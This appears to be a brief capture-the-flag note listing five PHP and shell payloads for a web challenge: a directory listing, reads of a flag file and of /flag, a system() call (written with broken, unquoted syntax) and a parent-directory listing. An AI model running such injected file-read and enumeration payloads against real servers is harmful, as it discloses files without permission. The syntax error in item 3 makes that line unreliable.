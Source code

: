 １．

`print_r(scandir(dirname(__FILE__)));`



２．`var_dump(file_get_contents('/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php'));`



3.

```
system(cat '/flag');
```



4.

```
var_dump(file_get_contents("/flag"));
```



5.读上一级目录的

```
ls ../
```



